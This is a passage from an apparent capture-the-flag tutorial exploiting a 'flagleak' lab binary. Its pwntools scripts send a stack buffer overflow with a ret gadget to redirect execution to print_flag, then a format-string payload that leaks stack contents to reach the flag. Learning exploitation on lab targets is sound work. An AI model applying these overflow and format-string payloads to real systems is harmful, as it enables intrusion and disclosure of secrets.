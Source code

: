 ```py

gdbscript = '''
b* main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start() #make a connection to the flagleak binary

p.recvline() # recv the line given by the binary
p.send(b"A"*(0x60+8) + p64(0x401016)  +  p64(elf.sym['print_flag']) ) # send a bufferoverflow to the binary to redirect code excecution to print_flag

p.interactive()
```

If you note there, I have added a ret instruction inbetween the print_flag function and rbp. This is to ensure stack alignment issues dont happen.

Ok now set a break point right at the printf function in the print_flag function. To do that change the main to the address of printf in the gdbscript. Running your script in vim is very easy. 

```vim
ESC, :w | !./% GDB NOASLR
```
In the above command we are writing the script with w, running a bash command with ! and excecuting the file ./%. % -> represents the current file. GDB NOASLR -> attachs gdb with ASLR disabled.

```py
p = start()
p.recvline()
p.send(b"A"*(0x60+8) + p64(0x401016)  +  p64(elf.sym['print_flag']) )
p.recvline()
p.sendline("%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-")
p.interactive()
```

After playing a little bit with gdb and format strings you will know that most of the stuff thats leaked is from the stack. Now you can also inspect the stack in gdb pwndbg with ``stack 20``. Wait a minute!! Do you see there is an address in stack that contains all the contents of our flag file ? Yes when you read and store a file, its contents will be stored on the stack.

![](/images/pwn-train2/pwntrain5.png)

Also in the leaked values we can see that our flag address is also leaked.

![](/images/pwn-train2/pwntrain6.png)

Now if you came this far you might have come across the format specifier %s -> this will get the contents stored in an address. So what if instead of printing the address, lets print the string pointed by the address. (So should we change all the p to s ?). hmm You do it only if all the values on the stack are valid address that points to some string. In this case its better to just count which offset our string is and then print it. 
